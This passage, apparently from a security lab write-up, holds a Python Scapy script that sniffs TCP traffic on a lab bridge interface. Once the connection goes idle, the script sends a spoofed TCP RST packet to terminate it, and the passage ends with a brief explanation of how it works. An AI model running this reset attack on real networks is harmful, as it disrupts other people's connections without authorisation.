             print("[+] Reset packet details:")
            ls(pkt)
            
            send(pkt, verbose=0)
            done = True
            print("[+] Reset packet sent. Exiting.")
            exit(0)

        def process_packet(pkt):
            """Callback function to update state with each sniffed packet."""
            global sequenceNumber, sourcePort, lastPacketTime
            # Check if the packet has a TCP layer
            if TCP in pkt:
                lastPacketTime = time.time()
                sequenceNumber = pkt[TCP].seq
                sourcePort = pkt[TCP].sport
                print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Port: {sourcePort}")

        def check_for_reset():
            """Continuously checks if the connection has timed out."""
            global lastPacketTime
            while True:
                # timeout has been exceeded and we did not see any packets
                if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                    resetConnection()
                    break 
                time.sleep(1)

        # Start packet sniffing in a separate thread
        # The sniff function will call process_packet for every TCP packet it sees
        print("[*] Starting packet sniffer in the background...")
        sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
        sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
        sniff_thread.start()

        # Check for the reset opportunity
        if not done:
            print("[*] Monitoring for idle connection...")
            check_for_reset()
        ```
    - Then we see that the script is sniffing the packets and updating the sequence number and source port, then after 10 seconds of no packets seen, it sends the spoofed TCP RST packet to terminate the connection.